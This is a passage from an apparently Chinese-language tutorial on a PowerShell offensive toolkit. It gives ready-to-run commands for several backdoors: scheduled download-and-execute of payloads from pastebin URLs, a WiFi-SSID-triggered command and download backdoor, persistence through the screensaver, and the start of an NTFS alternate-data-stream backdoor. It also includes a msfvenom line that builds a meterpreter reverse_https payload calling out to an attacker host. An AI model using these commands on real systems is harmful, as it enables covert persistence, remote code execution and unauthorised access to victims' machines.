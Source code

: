 ```powershell
PS > Execute-OnTime -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -Time hh:mm -CheckURL http://pastebin.com/raw.php?i=Zhyf8rwh -StopString stoppayload
```
具体参数的意思：
* PayloadURL 指定我们脚本下载的地址
* Arguments 指定执行的函数名
* Time 参数可以设定脚本执行的时间（例如  -Time 23:21）
* CheckURL 参数会检测我们一个指定的URL内容是否存在StopString给出的字符串，如果发现了就停止执行
#### Gupt-Backdoor
Gupt-Backdoor这个脚本可以帮助我们通过无线SSID反弹后门和执行命令。
执行方式：

```powershell
PS >Gupt-Backdoor -MagicString test -Verbose
``` 
这里解释一下MagicString这个参数：
MagicString开头的4个字符是用来识别我们建立的WIFI SSID的。例如，这里是test，Gupt后门会去自动匹配我们WIFI中SSID以test开头的。而MagicString这个参数从第五个字符开始就决定了我们是执行命令或是下载脚本。
需要注意的是：
* 如果它的第五个字符是c就代表执行命令。
例如：-MagicString testcwhoami 
就会匹配WIFI SSID为test的，并执行命令whoami
* 如果它的第五个字符是u的话就代表下载脚本。
例如：-MagicString testuXXXX
就会匹配WIFI SSID为test的，并默认下载http://goo.gl/XXXX
（其中http://goo.gl可在脚本的$PayloadURL参数中修改）
* 还可以用Arguments参数来指定下载脚本
例如：
PS >Gupt-Backdoor -MagicString test -Argument Get-Information -Verbose 
就可以下载Get-Information的脚本了

补充
Windows下创建一个WIFI：

```powershell
cmd
netsh wlan set hostednetwork mode=allow
netsh wlan set hostednetwork ssid=test key=1234567890
netsh wlan start hostednetwork
```
#### Add-ScrnSaveBackdoor
这个脚本可以帮助我们利用Windows的屏保来留下一个隐藏的后门
执行方式：

```powershell
PS >Add-ScrnSaveBackdoor -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process" //使用这条语句可以执行我们自己的Payload
PS >Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor 
http://pastebin.com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis //利用这条命令可以从powershell执行一个HTTP-Backdoor
PS >Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/code_exec.ps1  //还可以使用msfvenom先生成一个powershell (./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.254.226 -f powershell)，然后利用这条命令返回一个meterpreter
```
其他具体的参数的意思和我们上面介绍的一些后门是类似的
* PayloadURL 指定我们需要下载的脚本地址
* Arguments   指定我们要执行的函数以及相关参数
#### Invoke-ADSBackdoor
这个脚本是使用NTFS数据流留下一个永久性后门。其实，由NTFS数据流带来的一些安全问题的利用并不少见了（如：利用NTFS数据流在Mysql UDF提权中创建lib/plugin目录），大家可以参考《[NTFS ADS带来的WEB安全问题](http://wenku.baidu.com/view/22e049f55022aaea998f0f7c.html?from=search)》
这个脚本可以向ADS中注入代码并且以普通用户权限运行
执行方式：
